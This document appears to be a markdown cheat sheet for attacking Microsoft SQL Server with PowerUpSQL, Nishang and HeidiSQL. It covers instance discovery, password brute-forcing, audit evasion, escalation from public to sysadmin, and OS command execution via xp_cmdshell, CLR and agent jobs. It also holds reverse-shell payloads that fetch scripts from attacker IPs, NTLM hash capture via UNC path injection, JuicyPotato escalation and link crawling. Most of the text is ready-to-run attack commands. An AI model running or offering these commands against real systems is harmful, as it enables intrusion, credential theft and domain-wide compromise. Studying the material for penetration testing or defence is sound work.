



**What is SQL Server?**

- A database platform
- A Windows application
- A set of Windows Services



*Important Notes*

- OS command are usually executed as the service account
- The service account is a **sysadmin** by default
- Clustered servers are required to have the same service account

**How do I authenticate?**

Account Types:

- Windows Account:
	- Used to login
	- Mapped to SQL Server login
- SQL Server Login
	- Used to login
	- Mapped to database account
- Database User
	- Used to access databases



**Important Roles**

- Server Roles:
	- Sysadmin = Database Administrator
	- Public Role = Everyone with CONNECT
- Database Roles: 
	- Database Owner = SQL login that owns the database ☺
	- DB_OWNER role = Allows members to take most actions in the database

A database link allows a SQL Server to access external data sources like other SQL Servers and OLE DB data sources. In case of database links between SQL servers, that is, linked SQL servers it is possible to execute stored procedures. Database links work even across forest trusts.

## PowerUpSQL Setup

1. All possible setup options:

```powershell
# Download to Disk + Import Module
# Download from https://github.com/NetSPI/PowerUpSQL
Import-Module PowerUpSQL.psd1

# Download/Import to Memory: Download Cradle 1
IEX(New-Object System.Net.WebClient).DownloadString("https://raw.githubusercontent.com/NetSPI/PowerUpSQL/master/PowerUpSQL.ps1")

# Download/Import to Memory: Common Download Cradle 2
&([scriptblock]::Create((new-object net.webclient).downloadstring("https://raw.githubusercontent.com/NetSPI/PowerUpSQL/master/PowerUpSQL.ps1")))

# Install Module from PowerShell Gallery
Install-Module -Name PowerUpSQL
```

2. List all PowerUpSQL available functions:

```powershell
Get-Command –Module PowerUpSQL
Get-Help [FUNCTION_NAME] -Full
```

## Discovery

### .NET Classes - Remote Discovery

```powershell
[System.Data.Sql.SqlDataSourceEnumerator]::Instance.GetDataSources()
```

### Local Discovery

```powershell
# PowerUpSQL
# OS Authentication Level: Local User
# Technique: Locate services and registry keys
Get-SQLInstanceLocal
```

### Remote Discovery

List SQL Servers using UDP port scan:

```powershell
# PowerUpSQL
# OS Authentication Level: Unauthenticated
# Technique: UDP port scan
Get-SQLInstanceScanUDP -Verbose -ComputerName "COMPUTER1"
Get-SQLInstanceScanUDPThreaded -Verbose -ComputerName "COMPUTER1"

# Get the instance list from a file  
Get-SQLInstanceFile -FilePath c:\temp\computers.txt | Get-SQLInstanceScanUDPThreaded -Verbose
```

List SQL Servers using UDP broadcast ping:

```powershell
# PowerUpSQL
# OS Authentication Level: Unauthenticated
# Technique: UDP broadcast ping
Get-SQLInstanceBroadcast -Verbose
```

List SQL Servers using TCP port scan (MSSQL exposes port 1433):

```powershell
# Nishang
# OS Authentication Level: Unauthenticated
# Technique: TCP port scan
Invoke-PortScan -StartAddress [START_IP_ADDRESS] -EndAddress [END_IP_ADDRESS] -ScanPort -Port 1433 -Verbose

# PowerSploit
# OS Authentication Level: Unauthenticated
# Technique: TCP port scan
Invoke-PortScan -Hosts "COMPUTER1" -Ports 1433 -Verbose
$result = Invoke-PortScan -Hosts @("COMPUTER1","COMPUTER2") -Verbose
$result | | % { echo $_.hostname $_.openPorts}
```

List Active Directory Domain SQL Server Instances:

- Using current domain credentials:

	```powershell
	# PowerUpSQL
	# OS Authentication Level: Domain User
	# Technique: Query ADS via LDAP for SPNs
	Get-SQLInstanceDomain

	# List SQL Server instances running as a specific domain account
	Get-SQLInstanceDomain -DomainAccount "SQLSvc"

	# List shared domain user SQL Server service accounts (not machine account "*$"):
	Get-SQLInstanceDomain -Verbose | Group-Object DomainAccount | Sort-Object count -Descending | select Count,Name | Where-Object {($_.name -notlike "*$") -and ($_.count -gt 1) }
	```

- Using alternative domain credentials:

	```powershell
	runas /noprofile /netonly /user:"CYBERCORP\STUDENT1"  PowerShell.exe  
	Import-Module PowerUpSQL.psd1
	Get-SQLInstanceDomain -Verbose -DomainController "CYBERCORP-DC.CYBERCORP.LOCAL" -Username "CYBERCORP\STUDENTI1" -password "PASSWORD"
	```

## Initial Access

**How do I get access?**

Common Methods:

- Attempt to login with local or domain user privileges (Very Common)
- Computer accounts work too  ☺
- Weak SQL Server login passwords
- Default SQL Server login passwords
- Default SQL Server login passwords associated with 3rd party applications

**Why can domain users log to SQL Server?**

- Domain users added to role (Week devops)
- Local users added to role
- Privilege inheritance (Mostly express versions)



### Check SQL Server accessibility

#### Unauthenticated user

```powershell
# PowerUpSQL
# OS Authentication Level: Unauthenticated
Get-SQLInstanceUDPScan | Get-SQLConnectionTestThreaded -Verbose -Threads 15 -Username "testuser" -Password "testpass"
```

#### Local user

```powershell
# PowerUpSQL
# OS Authentication Level: Local User
Get-SQLInstanceLocal | Get-SQLConnectionTestThreaded -Verbose 
```

#### Domain user

```powershell
# PowerUpSQL
# OS Authentication Level: Domain User
Get-SQLInstanceDomain | Get-SQLConnectionTestThreaded –Verbose

# Get a list of domain SQL servers that can be logged into with a provided SQL Server login
Get-SQLInstanceDomain -Verbose | Get-SQLConnectionTestThreaded -Verbose -Threads 10 -username "testuser"  -password "testpass"
```

#### Alternative domain user

```powershell
# PowerUpSQL
# OS Authentication Level: Alternative Domain User
runas /noprofile /netonly /user:domain\user PowerShell.exe
Get-SQLInstanceDomain | Get-SQLConnectionTestThreaded –Verbose

# Get a list of domain SQL servers that can be logged into using an alternative domain account from a non domain system.
runas /noprofile /netonly /user:"CYBERCORP\STUDENT1"  PowerShell.exe  
Import-Module PowerUpSQL.psd1
Get-SQLInstanceDomain -Verbose -DomainController "CYBERCORP-DC.CYBERCORP.LOCAL" -Username "CYBERCORP\STUDENTI1" -password "PASSWORD" | Get-SQLConnectionTestThreaded -Verbose -Threads 15
```

### Password Guessing

Discover domain SQL Servers and determine if they are configured with default passwords used by common 3rd party applications based on the instance name (it covers 41 application specific default SQL Server instances, users and passwords):

```powershell
# PowerUpSQL
Get-SQLInstanceLocal | Invoke-SQLAuditDefaultLoginPw -Verbose
Get-SQLInstanceDomain | Invoke-SQLAuditDefaultLoginPw -Verbose
```

It is possible to create a user list using the following methods:

- Enumerates SQL Server Logins based on login id using SUSER_NAME() and only the Public role:

	```powershell
	# PowerUpSQL
	Get-SQLFuzzServerLogin -Instance "SQLServer1\Instance1" -Verbose
	```

- Enumerates **domain groups**, **computer accounts**, and **user accounts** based on domain RID using SUSER_SNAME() and only the Public role. Note: In a typical domain 10000 or more is recommended for the EndId. (Blindly enumerate domain users and group associated with the SQL Server domain with least privilege SQL login):

	```powershell
	# PowerUpSQL
	Get-SQLFuzzDomainAccount -Instance "SQLServer1\Instance1" -StartId 500 -EndId 10000
	```

- Enumerate all SQL Logins as least privilege user and test username as password (Custom user/password lists can also be provided):
	
	```powershell
	# PowerUpSQL
	Invoke-SQLAuditWeakLoginPw -Verbose -Instance "SQLServer1\Instance1"
	Invoke-SQLAuditWeakLoginPw -Verbose -Instance "SQLServer1\Instance1"  -UserFile "C:\dict\users.txt" -PassFile "C:\dict\passwords.txt"
	```

	```powershell
	# Nishang
	$comps = (Get-SQLInstanceDomain).ComputerName
	$comps | Invoke-BruteForce -UserList "C:\dict\users.txt" -PasswordList "C:\dict\passwords.txt" -Service SQL -Verbose
	```

	The "sa" user is always present, but it is disabled by default (if enabled it can always be brute-forced).


### Defense Evasion

In order to evade defense it is suggested to use techniques that aren’t being audited:

1. Get audit server specifications from target SQL Servers:

	```powershell
	# PowerUpSQL
	Get-SQLAuditServerSpec -Verbose -Instance "SQLServer1"
	```

2. Get audit database specifications from target SQL Servers:

	```powershell
	# PowerUpSQL
	Get-SQLAuditDatabaseSpec -Verbose -Instance "SQLServer1"
	```
		
### Information Gathering

Get information (SQL/OS versions, service accounts, ...) from a single server and check if the current user has sysadmin privs:

```powershell
# PowerUpSQL
Get-SQLServerInfo -Verbose -Instance "SQLServer1\Instance1"
```

Get information from domain servers and check if the current user has sysadmin privs:

```powershell
# PowerUpSQL
Get-SQLInstanceDomain | Get-SQLServerInfo -Verbose
Get-SQLInstanceDomain | Get-SQLServerInfoThreaded -Threads 10 -Verbose
```

Get list of non-default databases:

```powershell
# PowerUpSQL
Get-SQLInstanceDomain | Get-SQLDatabaseThreaded -Verbose -Threads 10 -NoDefaults
```

Get an inventory of common objects from the remote server including permissions, databases, tables, views etc, and dump them out into CSV files:

```powershell
# PowerUpSQL
Invoke-SQLDumpInfo -Verbose -Instance "SQLServer1\Instance1"
```

Find sensitive data based on column name:

```powershell
# PowerUpSQL
Get-SQLInstanceDomain | Get-SQLColumnSampleDataThreaded -Verbose -Threads 10 -Keyword "credit,ssn,password" -SampleSize 2 -ValidateCC -NoDefaults
```

Find sensitive data based on column name, but only target databases with transparent encryption:

```powershell
# PowerUpSQL
Get-SQLInstanceDomain | Get-SQLDatabaseThreaded -Verbose -Threads 10 -NoDefaults | Where-Object {$_.is_encrypted -eq "TRUE"} | Get-SQLColumnSampleDataThreaded -Verbose -Threads 10 -Keyword "card, password" -SampleSize 2 -ValidateCC -NoDefaults
```

After getting access to a SQL Server, interesting information can be gathered. These queries can be executed with `HeidiSQL`:

```sql
-- Version
SELECT @@version

-- Current User
SELECT SUSER_SNAME()
SELECT SYSTEM_USER

-- Check sa privileges
SELECT IS_SRVROLEMEMBER('sysadmin')

-- Current Role
SELECT user

-- Current database
SELECT db_name()

-- All logins on server (gives more results if executed with sa privs)
SELECT * FROM sys.server_principals WHERE type_desc != 'SERVER_ROLE';

-- All database users for a database
USE <database>
SELECT * FROM sys.database_principals WHERE type_desc != 'DATABASE_ROLE';

-- List all sysadmin (gives more results if executed with sa privs)
SELECT name,type_desc,is_disabled FROM sys.server_principals WHERE IS_SRVROLEMEMBER ('sysadmin',name) = 1;

-- List all database roles (gives more results if executed with sa privs)
USE <database>
SELECT DP1.name AS DatabaseRoleName, isnull (DP2.name, 'No members') AS DatabaseUserName FROM sys.database_role_members AS DRM  RIGHT OUTER JOIN sys.database_principals AS DP1  ON DRM.role_principal_id = DP1.principal_id  LEFT OUTER JOIN sys.database_principals AS DP2  ON DRM.member_principal_id = DP2.principal_id  WHERE DP1.type = 'R' ORDER BY DP1.name;

-- Effective Permissions for the server (more permissions if executed with sa privs)
SELECT * FROM fn_my_permissions(NULL, 'SERVER');

-- Effective Permissions for the database (more permissions if executed with sa privs)
USE <database>
SELECT * FROM fn_my_permissions(NULL, 'DATABASE');

-- Active user token (gives more results if executed with sa privs)
SELECT * FROM sys.user_token

-- Active login token (gives more results if executed with sa privs)
SELECT * FROM sys.login_token

-- List all databases
SELECT name FROM master.sys.databases

-- List all tables in a database
SELECT * FROM Database01.information_schema.tables

-- Get row count and content of a table in a database
SELECT COUNT(*) FROM Database01.dbo.Table01
SELECT * FROM Database01.dbo.Table01
```

or by `Get-SQLQuery`:

```powershell
# PowerUpSQL
Get-SQLQuery -Instance "SQLServer1\Instance1" -Verbose -Query "SELECT @@version"
```

## Privilege Escalation

**Summary of Points**:

- OS Commands can be executed if you have a sysadmin login or have been provided explicit permissions to sensitive functionality
- Most command execution options in SQL Server run as the SQL Server service account
- SQL Server service account can be configured as: 
	- Local User
	- Domain User
	- Domain Admin
	- etc
- SQL Server service account = Sysadmin (and implicitly the SQL Server service process)

A generic audit for MSSQL issues can be done via:

```powershell
# PowerUpSQL
Invoke-SQLAudit -Verbose -Instance "SQLServer1\Instance1"
```
	
### Public to Sysadmin

**Insecure configurations are very common**:

- Weak passwords 
	- default SQL Server, default third party applications, custom SQL logins 
	- user enumeration helps ;)
- Excessive permissions 
	- startup procedures, dangerous stored procedures (RWX), xp creation, CLR creation
	- impersonation, database ownership, database links, agent jobs
- SQL Injection 
	- EXECUTE AS LOGIN
	- Signed procedures
- Out of date versions

An automatic check for public to sysadmin privilege escalation can be done via:

```powershell
# PowerUpSQL
Invoke-SQLEscalatePriv -Verbose -Instance "SQLServer1\Instance1"
```

#### Public to Sysadmin - Impersonation

User Impersonation (EXECUTE AS): when EXECUTE AS is used, the execution context is switched to the specified login or user name. This allows impersonation of other users and logins to be able to access resources which means it can be abused to use privileges and objects available to other users.

The following SQL query allows to find SQL Server logins which can be impersonated in the current database:

```sql
-- HeidiSQL
SELECT distinct b.name FROM sys.server_permissions a INNER JOIN sys.server_principals b ON a.grantor_principal_id = b.principal_id WHERE a.permission_name = 'IMPERSONATE'
```

or it can be done through `PowerUpSQL`:

```powershell
# PowerUpSQL
Invoke-SQLAuditPrivImpersonateLogin -Username "sqluser" -Password "Sql@123" -Instance "SQLServer1\Instance1" -Verbose
```
Exploit sysadmin privileges through user impersonation (does not work if chanined/nested impersonation must be performed to get to "sa", in fact only direct sa impersonation is supported):

```powershell
# PowerUpSQL
Invoke-SQLAuditPrivImpersonateLogin -Username "sqluser" -Password "Sql@123" -Instance "SQLServer1\Instance1" -Exploit -Verbose
```

The exploitation of chained/nested impersonation can be directly done by executing queries in `HeidiSQL`:

```sql
-- HeidiSQL
SELECT SYSTEM_USER 
SELECT IS_SRVROLEMEMBER('sysadmin') 
EXECUTE AS LOGIN = 'dbadmin' 
SELECT SYSTEM_USER 
EXECUTE AS LOGIN = 'sa' 
SELECT IS_SRVROLEMEMBER('sysadmin') 
SELECT ORIGINAL_LOGIN()
```

#### Public to Sysadmin - Trustworthy database

A database property (is_trustworthy_on) used to indicate whether a SQL Server instance trusts a database and its contents. The property is turned off by default as a security measure. Only a sysadmin can set a database to be TRUSTWORTHY. When TRUSTWORTHY is off, impersonated users (by using EXECUTE AS) will only have database-scope permissions but when TRUSTWORTHY is turned on impersonated users can perform actions with server level permissions.

Look for TRUSTWORTHY database using `PowerUpSQL`:

```powershell
# PowerUpSQL
Invoke-SQLAudit -Instance "SQLServer1\Instance1" -Verbose | Out-GridView
Invoke-SQLAuditPrivTrustworthy -Instance "SQLServer1\Instance1" -Verbose
```

Look for **TRUSTWORTHY** database (can be done with public role):

```sql
-- HeidiSQL
SELECT name as database_name, SUSER_NAME(owner_sid) AS database_owner, is_trustworthy_on AS TRUSTWORTHY from sys.databases
```

Look for **db_owner** role (can be done with public role) on the found trustworthy database:

```sql
-- HeidiSQL
use <database> 
SELECT DP1.name AS DatabaseRoleName, isnull (DP2.name, 'No members') AS DatabaseUserName FROM sys.database_role_members AS DRM  RIGHT OUTER JOIN sys.database_principals AS DP1  ON DRM.role_principal_id = DP1.principal_id  LEFT OUTER JOIN sys.database_principals AS DP2  ON DRM.member_principal_id = DP2.principal_id  WHERE DP1.type = 'R' ORDER BY DP1.name;
```

Perform EXECUTE AS in `HeidiSQL`to become the db owner (with elevated privileges) and give a Domain User the sysadmin role: 

```sql
-- HeidiSQL
EXECUTE AS USER = 'dbowner' 
SELECT system_user 
EXEC sp_addsrvrolemember 'DOMAIN\USER','sysadmin'
```

### Sysadmin to OS Service Account

#### Sysadmin to OS Service Account - Command Execution with xp_cmdshell

- `HeidiSQL`:
	```sql
	-- HeidiSQL
	-- If xp_cmdshell is uninstalled:
	sp_addextendedproc 'xp_cmdshell','xplog70.dll' 

	-- If xp_cmdshell is disabled:
	EXEC sp_configure 'show advanced options',1 
	RECONFIGURE
	EXEC sp_configure 'xp_cmdshell',1 
	RECONFIGURE
	EXEC master..xp_cmdshell 'whoami'
	```

	Execute a payload via HeidiSQL to get a reverse shell:
	
	```sql
	-- Query to be executed in HeidiSQL
	EXEC master..xp_cmdshell 'powershell -c test-netconnection 192.168.50.53 -port 80'
	EXEC master..xp_cmdshell 'powershell -ep bypass -c iex (New-Object Net.WebClient).DownloadString(''http://192.168.50.53/powercat.ps1''); powercat -c 192.168.50.53 -p 4444 -e cmd -v'
	EXEC master..xp_cmdshell 'powershell -ep bypass -c . \\192.168.50.50\share\PowerUp.ps1; Invoke-AllChecks'
	```

	```powershell
	# On the local machine:
	powercat -l -p 4444 -t 1000

	# Once you get a stable shell you can escalate your privileges
	cmd /c sc qc ALG
	cmd /c sc config ALG binpath= "net localgroup administrators CYBERLAB\user01 /add"
	cmd /c sc qc ALG
	cmd /c sc stop ALG
	cmd /c sc start ALG
	net localgroup administrators
	```

-  `Nishang`: 

	Automatically enable xp_cmdshell and open a shell:

	```powershell
	# Nishang
	Execute-Command-MSSQL -ComputerName "SQLServer1" -UserName "sa" -Password "Password1"
	```
	
	Authenticate through windows authentication (for an alternative user you need to launch a new PowerShell session with different credentials) and open a shell:
	
	```powershell
	# Nishang
	Execute-Command-MSSQL -ComputerName "SQLServer1" -WindowsAuthentication 
	```
	
	Authenticate and execute a payload:
	
	```powershell
	# Nishang
	Execute-Command-MSSQL -ComputerName "SQLServer1" -WindowsAuthentication -payload "iex ((New-Object Net.Webclient).downloadstring(''http://192.168.254.1/Invoke-PowerShellTcp.ps1''));Invoke-PowerShellTcp -Reverse -IPAddress 192.168.254.1 -Port 443"
	```
	
	If no payload is specified it is possible to spawn a shell (powershell, cmd or mssql):
	
	```powershell
	# Nishang
	Execute-Command-MSSQL -UserName 'sa' -Password 'Password1' -ComputerName "SQLServer1"
	```

- `PowerUpSQL`:

	Automatically enable xp_cmdshell and execute the command:

	```powershell
	# PowerUpSQL
	Invoke-SQLOSCmd -Username "sa" -Password "Password1" -Instance "SQLServer1" -Command "whoami"
	```

	If you want to use windows authentication do not user username parameter but launch a Powershell session as the desired user.

#### Sysadmin to OS Service Account - Command Execution with extended stored procedures

- `PowerUpSQL`:
	```powershell
	# PowerUpSQL

	# Create the DLL with desired commands
	Create-SQLFileXpDll -OutFile "C:\fileserver\xp_calc.dll"  -Command "calc.exe" -ExportName "xp_calc"

	# Add the DLL as a stored procedure
	Get-SQLQuery -UserName "sa" -Password "Password1" -Instance "SQLServer1" -Query "sp_addextendedproc 'xp_calc', '\\192.168.15.2\fileserver\xp_calc.dll'"

	# List existing Extended stored procedures
	Get-SQLStoredProcedureXP -UserName "sa" -Password "Password1" -Instance "SQLServer1" -Verbose

	# Execute the stored procedure
	Get-SQLQuery -UserName "sa" -Password "Password1" -Instance "SQLServer1" -Query "EXEC xp_calc"
	```

- `HeidiSQL`:

	```sql
	-- HeidiSQL

	-- sp_addextendedproc can be used to register the stored procedure. Note that the function name in the DLL and the command must exactly be the same (case-sensitive)
	sp_addextendedproc 'xp_calc', 'C:\mydll\xp_calc.dll'

	-- Execute the stored procedure 
	EXEC xp_calc

	-- Drop the stored procedure 
	sp_dropextendedproc 'xp_calc'
	```

	Code sample for DLL can be found here:

	- https://raw.githubusercontent.com/nullbind/Powershellery/master/Stable-ish/MSSQL/xp_evil_template.cpp
	- https://stackoverflow.com/questions/12749210/how-to-create-a-simple-dll-for-a-custom-sql-server-extendedstored-procedure


#### Sysadmin to OS Service Account - Command Execution with CLR assemblies

- `HeidiSQL`:
	1. Creating the DLL using the file **cmd_exec.cs**.

	2. Compile the DLL that can be loaded from a local path or a UNC path: 
	
		```powershell
		C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe /target:library C:\Users\labuser\Desktop\cmd_exec.cs
		```
		
	3. Execute the commands:

		```sql
		-- HeidiSQL
		-- Enable CLR 
		use msdb 

		-- Enable show advanced options on the server 
		sp_configure 'show advanced options',1 
		RECONFIGURE 

		-- Enable CLR on the server 
		sp_configure 'clr enabled',1 
		RECONFIGURE 
		GO

		-- Import the assembly and use the stored procedure: 
		---- Import the assembly from a file (UNC Path)
		CREATE ASSEMBLY my_assembly FROM '\\192.168.15.2\fileserver\cmd_exec.dll' WITH PERMISSION_SET = UNSAFE; 
		GO

		---- Link the assembly to a stored procedure 
		CREATE PROCEDURE [dbo].[cmd_exec] @execCommand NVARCHAR (4000) AS EXTERNAL NAME [my_assembly].[StoredProcedures].[cmd_exec]; 
		GO

		cmd_exec 'whoami' 
		GO

		-- Cleanup 
		DROP PROCEDURE cmd_exec 
		DROP ASSEMBLY my_assembly
		```

		Reference: https://blog.netspi.com/attacking-sql-server-clr-assemblies/

- `PowerUpSQL`:

	1. Following command can be used to create C# code for the DLL, the DLL and SQL query with DLL as hexadecimal string:

	```powershell
	# PowerUpSQL
	Create-SQLFileCLRDll -ProcedureName "runcmd" -OutFile "runcmd" -OutDir "C:\Users\labuser\Desktop"
	```

	2. Import the stored procedure from the generated string:

	```sql
	-- HeidiSQL
	CREATE ASSEMBLY [NMfsa] AUTHORIZATION [dbo] FROM 0x4D5A90……
	```

	3. Below command can be used to list all the stored procedures added using CLR:

	```powershell
	# PowerUpSQL
	Get-SQLStoredProcedureCLR -Instance "SQLServer1" -Verbose
	```

	4. Use below for automated enabling, executing command and reading output using CLR assembly:

	```powershell
	# PowerUpSQL
	Invoke-SQLOSCmdCLR -Username "sa" -Password "Password1" -Instance "SQLServer1" -Command "whoami" -Verbose
	Invoke-SQLOSCmdCLR -Username "sa" -Password "Password1" -Instance "SQLServer1" -Command "powershell -e <base64encodedscript>" -Verbose
	```
 
#### Sysadmin to OS Service Account - Command Execution with OLE Automation Procedures

- `HeidiSQL`:

	```sql
	-- HeidiSQL
	-- Enable Ole Automation Stored Procedures 
	sp_configure 'show advanced options', 1;
	GO
	RECONFIGURE;
	GO
	sp_configure 'Ole Automation Procedures', 1; 
	GO
	RECONFIGURE;
	GO

	-- Execute command
	DECLARE @output INT
	DECLARE @ProgramToRun VARCHAR(255)
	SET @ProgramToRun = 'Run("calc.exe")'
	EXEC sp_oacreate 'wScript.Shell', @output out 
	EXEC sp_oamethod @output, @ProgramToRun 
	EXEC sp_oadestroy @output
	```

#### Sysadmin to OS Service Account - Command Execution with Agent Jobs

SQL Server Agent is a Windows service that executes scheduled tasks or jobs:

- Subsystem PowerShell
- Subsystem CmdExec 
- Subsystem VBScript 
- Subsystem Jscript

1. Execute commands: 

	```powershell
	# PowerUpSQL
	Invoke-SQLOSCmdAgentJob -Subsystem PowerShell -Username "sa" -Password "Password1" -Instance "SQLServer1" -Command "powershell -e <base64encodedscript>" -Verbose 
	```

2. List all jobs: 

	```powershell
	# PowerUpSQL
	Get-SQLAgentJob -Instance "SQLServer1" -Username "sa" Password "Pass@123" -Verbose
	```

#### Sysadmin to OS Service Account - Command Execution with external

```powershell
# PowerUpSQL
Invoke-SQLOSCmdR -Username "sa" -Password "Password1" -Instance "SQLServer1" -Command "powershell -e <base64encodedscript>" -Verbose
Invoke-SQLOSCmdPython -Username "sa" -Password "Password1" -Instance "SQLServer1" -Command "powershell -e <base64encodedscript>" -Verbose
```
Reference: 

- https://gist.github.com/james-otten/63389189ee73376268c5eb676946ada5 
- https://www.slideshare.net/nullbind/beyond-xpcmdshell-owning-the-empire-through-sql-server

### Public to OS Service Account

#### Public to OS Service Account - UNC Path Injection

A very well known method to capture Net-NTLM (also known as NTLMv1/v2) hashes. Stored procedures like **xp_dirtree** and **xp_fileexist** can be used to capture Net-NTLM hashes. The captured hashes can be cracked using John-the-Ripper, Hashcat etc

PowerUpSQL automates this impressively (uses Inveigh https://github.com/Kevin-Robertson/Inveigh as a capture server): 

1. Gets SQL Server SPNs 
2. Attempt to log into each
3. Performs UNC path injection
4. Capture password hashes

```powershell
# PowerUpSQL
Invoke-SQLUncPathInjection -Verbose -CaptureIp [ATTACKER_IP] 
```

More in UNC Path Injection cheatsheet: https://gist.github.com/nullbind/7dfca2a6309a4209b5aeef181b676c6e


If the process cannot be automatized, it is necessary first to start on a machine:

```powershell
# Inveigh
Import-Module .\Inveigh.psd1
Invoke-Inveigh -FileOutput Y
```

then on HeidiSQL connect to the database and execute one of the following queries by replacing the correct attacker IP:

```sql
EXEC master..xp_dirtree '\\attackerip\file'
EXEC master..xp_fileexist '\\attackerip\file'
```

### OS Service Account to Local SYSTEM

#### OS Service Account to Local SYSTEM - Rotten Potato

Reference: https://foxglovesecurity.com/2016/09/26/rotten-potato-privilege-escalation-from-service-accounts-to-system/

#### OS Service Account to Local SYSTEM - Juicy Potato

Reference: https://github.com/ohpe/juicy-potato

```powershell
# Listener
powercat -l -v -p 443

# Get command execution
Get-SQLServerLinkCrawl -Instance INSTANCE -Query "EXEC master..xp_cmdshell 'powershell.exe iex (iwr http://192.168.50.51/Invoke-PowerShellTcp.ps1 -UseBasicParsing);Invoke-PowerShellTcp -Reverse -IPAddress 192.168.50.51 -Port 443'"

# Grab Juicy potato
wget http://192.168.50.51/juicy-potato-master/JuicyPotato/JuicyPotato.exe -UseBasicParsing -Outfile juicypotato.exe

EXEC master..xp_cmdshell 'powershell -ep bypass -c wget ''http://192.168.50.53:8888/JuicyTomato.exe'' -OutFile c:\Users\Public\JuicyTomato.exe'

# own
./juicypotato.exe -t * -p c:\Windows\System32\cmd.exe -a "/c net localgroup Administrators DOMAIN\USER /add" -l 8000
EXEC master..xp_cmdshell 'powershell -ep bypass -c c:\users\public\JuicyTomato.exe -t * -p c:\Windows\System32\cmd.exe -a ''/c net localgroup Administrators usfun\pastudent53 /add'' -l 8000'
```

### Local Admin to Sysadmin

Extract service account credentials from LSA Secrets and/or memory, Token Impersonation for the SQL Server service,  single user mode etc. are very well known methods.

Impersonating the SQL Server service account (sysadmin) using the PowerUpSQL function InvokeSQLImpersonateService that wraps Joe Bialek’s Invoke-TokenManipulation:

```powershell
# PowerUpSQL
Invoke-SQLImpersonateService -Instance "SQLServer1\Instance1" -Verbose
```

## Lateral Movement

Once we move to the OS layer by executing OS commands, it is possible to move laterally to spread our access. SQL Servers provide various possibilities for lateral movement:
 
- **Shared Service Accounts** = Domain user or Domain admin (OS layer)
- **SQL Server Links** = Move laterally in the database layer

### Shared Service Accounts

**Why should I care about SQL Servers that share service accounts?**

- SysAdmins can execute OS commands
- OS commands run as the SQL Server service account
- Service accounts have sysadmin privileges by default
- Companies often use a single domain account to run hundreds of SQL Servers
- So if you get sysadmin on one server you have it on all of them!

Check if current user has sa privs on a SQL instance:

```powershell
# PowerUpSQL
Get-SQLInstanceDomain | Get-SQLServerInfo -Verbose
```

Check for alternate creds:

```powershell
# PowerUpSQL
runas /noprofile /netonly /user:<domain\username> powershell.exe
Get-SQLInstanceDomain | Get-SQLServerInfo -Verbose
```

Note that if we have access to hashes or tickets of any user, it always pay to check if that user is sysadmin on any database in the domain.

A user with public (everyone) role can be used to enumerate domain accounts and groups in the forest and other trusted forests by fuzzing the values to SUSER_NAME function:

```powershell
# PowerUpSQL
Get-SQLFuzzDomainAccount -Instance "SQLServer1.cybercorp.local" -StartId 500 -EndId 2000 -Verbose
Get-SQLFuzzDomainAccount -Instance "SQLServer1" -StartId 500 -EndId 2000 -Verbose -Domain "evilcorp.local"
```

### SQL Server Links

**What’s a SQL Server Link?**

- Database links are basically persistent database connections for SQL Servers.
- A database link allows a SQL Server to access external data sources like other SQL Servers and OLE DB data sources (Access, Excel, Oracle etc.). 
- In case of database links between SQL servers, that is, linked SQL servers it is possible to execute stored procedures. 
- Database links work across SQL server versions and even across forest trusts.

**Why should I care about SQL Server Links?**

- Short answer = privilege escalation 
- Links can be accessed by the public role via openquery 
- Links are often configured with excessive privileges so they can allow you to impersonate logins on remote servers. 
 - xp_cmdshell and other command can be ran through 
 - Links can be crawled.

SQL Server links can be exploited by:

- `HeidiSQL`:

	```sql
	-- HeidiSQL
	-- Look for links to remote servers (public privs are enough)
	select * from master..sysservers

	-- Run the same query on linked databases.Openquery() function can be used to run queries on a linked database 
	select * from openquery("SQLServer2",'select * from master..sysservers')

	-- Openquery queries can be chained to access links within links (nested links) 
	select * from openquery("SQLServer2",'select * from openquery("SQLServer3",''select * from master..sysservers'')')

	-- Hereafter, a long example of openquery
	select * from openquery("ops-mssql",'select * from openquery("opsfile",''select * from openquery("ops-sqlsrvprod",''''select * from openquery("dps-sqlreport", ''''''''select * from openquery("dps-mssql",''''''''''''''''select @@version as version;exec master..xp_cmdshell "powershell whoami"'''''''''''''''')'''''''')'''')'')')
	```

	`xp_cmdshell` cannot be enabled on linked databases unless rpcout is enabled for all links (disabled by default), `xp_cmdshell` can be enabled using:

	```sql
	-- HeidiSQL
	-- The query travels through the links and executes at the instance specified by AT
	EXECUTE('sp_configure ''xp_cmdshell'',1;reconfigure;') AT "SQLServer2"
	```
